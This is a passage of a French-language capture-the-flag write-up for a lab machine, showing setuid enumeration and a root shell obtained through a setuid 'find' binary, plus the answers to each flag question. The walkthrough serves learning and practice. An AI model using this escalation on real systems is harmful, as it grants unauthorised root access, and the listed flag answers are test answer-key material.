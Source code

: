 ```bash
stoner@Vulnerable:~$ cat .secret
You made it till here, well done.
```

Avec les identifiants on se connect sur le compte stoner.   
Dans le répertoire \∕home\∕stoner on trouve un fichier .secret.    
Dans le fichier .secret on voit le flag.   

La réponse est : You made it till here, well done.   

**What did you exploit to get the privileged user?**

```bash
stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

On peut exploiter cette faille mais ce n'ai pas l'objectif de l'exercise.    

```bash
stoner@Vulnerable:~$ find / -perm -4000 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap
```

On regarde les fichiers setuid, on peut exploiter find pour avoir un shell. 

La réponse est : find    

**root.txt**

Création d'un shell avec find. ![gtfobins](https://gtfobins.github.io/gtfobins/find/)       

```bash
stoner@Vulnerable:~$ cd /tmp
stoner@Vulnerable:/tmp$ find . -exec /bin/sh -p \; -quit
# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
# ls /root/
root.txt
# cat /root/root.txt
It wasn't that hard, was it?
```

On obtient un shell root avec find.    
On trouve le dernier flag dans le fichier root.txt.   

La réponse est : It wasn't that hard, was it?      